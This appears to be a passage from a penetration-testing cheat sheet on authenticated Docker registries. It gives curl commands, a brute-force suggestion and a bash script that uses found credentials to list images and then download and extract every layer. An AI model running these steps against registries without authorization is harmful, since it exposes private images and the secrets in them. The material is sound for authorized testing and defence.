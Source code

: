 ```bash
    tar -xf "blob$var_C.tar" -C "blob$var_C"

    # Clean up blob file after extraction
    rm "blob$var_C.tar"

    var_C=$(( $var_C + 1))
done
```


## Hardenized Docker registry

- One way to hardenize the Docker registry is to require user authentication for common operations and to use communication via HTTPS, utilizing a valid certificate for the registry.

Now if we try to list it will not work, because it has an authentication:
```bash
curl -k https://192.168.1.100:5000/v2/_catalog
# unauthorized
```

We can bruteforce the authentication, and if somehow u find the user

You can CURL with the credentials:
```bash
curl -sku user:password https://192.168.1.100:5000/v2/_catalog | jq
```

The same as before:
1. List the images
2. List the tags
3. Download the content
4. Extract the .TAR to inspect the content


script to download:

In bash:
```bash
#!/bin/bash
var_C=1
registry_ip="192.168.1.100"
username="user"
password="password"

arr=( $(curl -sku $username:$password https://$registry_ip:5000/v2/$1/manifests/$2 | jq -r '.fsLayers[].blobSum') )

for i in "${arr[@]}"
do
    mkdir -p blob$var_C
    curl -sku $username:$password https://$registry_ip:5000/v2/$1/blobs/$i --output "blob_$var_C.tar"
    tar -xf "blob_$var_C.tar" -C blob$var_C
    var_C=$(( $var_C + 1))
done
```
